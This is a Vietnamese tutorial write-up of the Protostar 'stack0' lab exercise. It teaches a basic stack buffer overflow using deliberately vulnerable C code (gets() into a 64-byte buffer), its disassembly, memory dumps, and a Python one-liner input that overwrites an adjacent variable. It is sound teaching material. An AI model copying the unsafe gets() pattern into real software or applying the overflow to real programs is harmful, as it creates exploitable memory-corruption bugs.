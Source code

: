 ```yaml
---
layout: post
title: stack0
---
```

Bài này hướng dẫn các bạn cơ bản về stack overflow. Nếu bạn muốn thử, có thể xem qua bài [Setup](./setup.html) để biết thêm về cách thiết lập môi trường.
Sau đây là source code của chương trình stack0:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Khi đọc qua source code và cả asm của `main`, hãy lưu ý nhưng điều sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

Từ 2 lưu ý trên, ta thấy được biến `buffer` và `modified` nằm kề nhau.
2 biến này sẽ chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của biến `buffer` được người dùng quyết định thông qua hàm `gets`.
Stack overflow sẽ xảy ra khi người dùng nhập giá trị cho `buffer` nhưng lại vượt quá độ dài 64 byte của biến đó.
Khi đó, phần dư sẽ được lưu đè lên vùng bộ nhớ kế tiếp.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049620</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048469</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048450</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804845b</span>      <span style="color:orangered">0x00000000</span>
</pre>

Như vậy chỉ cần nhập chuỗi có độ dài ít nhất 65 byte thì giá trị của `modified` sẽ được thay đổi.
Sau đây là một ví dụ. Lưu ý, ở đây mình dùng file `input.txt` để lưu giá trị nhập vào.

```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
stack0 < input.txt
```

Phần chuỗi `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888"` sẽ chiếm hết 64 byte của `buffer`. `"x"`, tương đương `0x78` sẽ được dành cho `modified`.
Thay đổi trên bộ nhớ có thể thấy được như sau:
<pre>
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + 'x'" > input.txt
user@protostar:~$ stack0 < input.txt
you have changed the 'modified' variable
```
